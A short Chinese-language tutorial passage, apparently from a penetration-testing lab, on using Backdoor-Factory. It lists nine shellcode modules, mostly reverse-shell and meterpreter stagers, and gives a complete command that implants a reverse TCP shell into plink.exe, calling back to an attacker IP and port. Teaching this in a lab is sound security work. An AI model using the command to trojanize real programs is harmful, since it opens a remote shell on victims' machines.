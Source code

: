 ![图片描述](../imgs/1482893251799.png-wm.png)

由上图输出的信息可以知道，我们可以使用的 Shellcode 模块共有 9 个，每个 Shellcode 功能不尽相同：

```
cave_miner_inline
iat_reverse_tcp_inline
iat_reverse_tcp_inline_threaded
iat_reverse_tcp_stager_threaded
iat_user_supplied_shellcode_threaded
meterpreter_reverse_https_threaded
reverse_shell_tcp_inline
reverse_tcp_stager_threaded
user_supplied_shellcode_threaded
```

在这里，我们使用 `reverse_shell_tcp_inline` 这个 Shellcode，作用是会话通道的建立。Shellcode 是一段用于利用软件漏洞而执行的代码，以其经常让攻击者获得 shell 而得名。Shellcode 常常使用机器语言编写。

使用 Backdoor-Factory 对指定的 `plink.exe` 程序植入木马，并设置攻击者的 IP 地址和侦听的端口号：
```
# 使用 Backdoor-Factory 设置攻击者的 IP 地址和端口号
backdoor-factory -f /usr/share/windows-binaries/plink.exe -s reverse_shell_tcp_inline -H 192.168.122.101 -P 4444
```
